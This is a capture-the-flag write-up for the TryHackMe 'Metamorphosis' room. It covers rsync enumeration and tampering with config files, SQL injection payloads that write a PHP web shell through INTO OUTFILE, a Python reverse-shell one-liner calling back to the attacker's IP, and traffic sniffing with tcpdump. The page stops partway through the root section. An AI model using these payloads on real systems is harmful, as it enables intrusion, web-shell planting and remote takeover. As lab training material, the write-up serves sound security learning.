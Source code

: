 # Metamorphosis

![image](https://user-images.githubusercontent.com/5285547/126398152-edb99e4d-972a-4849-bd58-a604b7a9fa07.png)

Room link: https://tryhackme.com/room/metamorphosis

## Box name

```
sudo nano /etc/hosts
10.10.10.10 incognito.thm
```


## Nmap 

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
```

## Rsync Enum, Port 873

rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification timesand sizes of files.[3] It is commonly found on Unix-like operating systems. The rsync algorithm is a type of delta encoding, and is used for minimizing network usage. Zlib may be used for additional data compression,[3] and SSH or stunnel can be used for security.

```
nc -vn 10.10.177.2 873
(UNKNOWN) [10.10.177.2] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
Conf            All Confs <--- The server starts enumerating
@RSYNCD: EXIT         <--- Sever closes the connection
```

or

```
nmap -sV --script "rsync-list-modules" -p 873 10.10.177.2 

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  Conf                All Confs
```

List share's

```
rsync -av --list-only rsync://10.10.55.140/Conf 

receiving incremental file list
drwxrwxrwx          4,096 2021/04/10 21:03:08 .
-rw-r--r--          4,620 2021/04/09 21:01:22 access.conf
-rw-r--r--          1,341 2021/04/09 20:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 21:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 21:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 21:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 20:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 20:56:56 php.ini
-rw-r--r--            320 2021/04/09 21:03:16 ports.conf
-rw-r--r--            589 2021/04/09 21:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 21:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 21:00:59 smb.conf
-rw-rw-r--             72 2021/04/10 21:03:06 webapp.ini
```

Copy files

```
rsync -av  "rsync://10.10.55.140/Conf" . 

receiving incremental file list
./
access.conf
bluezone.ini
debconf.conf
ldap.conf
lvm.conf
mysql.ini
php.ini
ports.conf
resolv.conf
screen-cleanup.conf
smb.conf
webapp.ini

sent 255 bytes  received 194,360 bytes  389,230.00 bytes/sec
total size is 193,430  speedup is 0.99
```

Post files

```
rsync -av testfile.txt rsync://tom@10.10.55.140/Conf

sending incremental file list

sent 63 bytes  received 12 bytes  150.00 bytes/sec
total size is 7  speedup is 0.09
```

## User

In webapp.ini we can see a user and password for "tom".  
Change the "prod" to "dev" to bypass the 403 error.

![image](https://user-images.githubusercontent.com/5285547/126405026-04e2a3da-4ff9-4b78-914a-91ed43b0979d.png)

Then reuplaod the files

```
rsync -av ./ rsync://tom@10.10.55.140/Conf 
```

Now we can access the admin portal

![image](https://user-images.githubusercontent.com/5285547/126405143-f5546a02-32e0-4712-9aaf-a65b7d5f052c.png)

Playing with the application and testing a few things out.  
I found it vunerable to Sqli


payloads
```
tom" and 2=2 and ""="
tom" union select 1,2,3-- -
tom" UNION SELECT 1,"<?php echo shell_exec($_GET['cmd']);?>",2 INTO OUTFILE "/var/www/html/shell.php" -- '
```

*Extra info
![image](https://user-images.githubusercontent.com/5285547/126409027-7d78bfa0-1586-4489-b4e3-811ac3dc081f.png)  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-write-a-shell

### Webshell 

http://IP/admin/shell.php

![image](https://user-images.githubusercontent.com/5285547/126406971-d222658d-3caf-46d1-98aa-f81644412ab5.png)
![image](https://user-images.githubusercontent.com/5285547/126406986-7c4b4f69-2faa-48ea-a804-f8deb17ba55a.png)

Lets get a reverse shell back. 
Start a net cat listner

```
nc -lnvp 9999
```

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.8.153.120",9999));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
![image](https://user-images.githubusercontent.com/5285547/126407229-c24fc6c5-30d3-43ff-b245-d8f76db7e69d.png)

Upgrade your terminal

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo;fg
reset
xterm

export TERM=xterm;export SHELL=bash
```

## Root

Running linpeas on the box didn't show much, apart from tcpdump was usable. 

![image](https://user-images.githubusercontent.com/5285547/126408059-0e4b8b9e-4342-49b4-8ca7-31bc86b2a069.png)

So I started to sniff the traffic to see what was going on

```
tcpdump -i eth0 -A > tcpdump.out
```

Then transfered it to my box after..making a coffee then I went and did a few things, then came back to  
go through the results. 

```
python3 -m http.server 8899
wget http://IP:8899/tcpdump.out
```

Using sublimetext I went over the results. 

*If you need or like sublimetext4 and don't have it
```
sudo apt-get update 
sudo apt-get install sublime-text -y
```





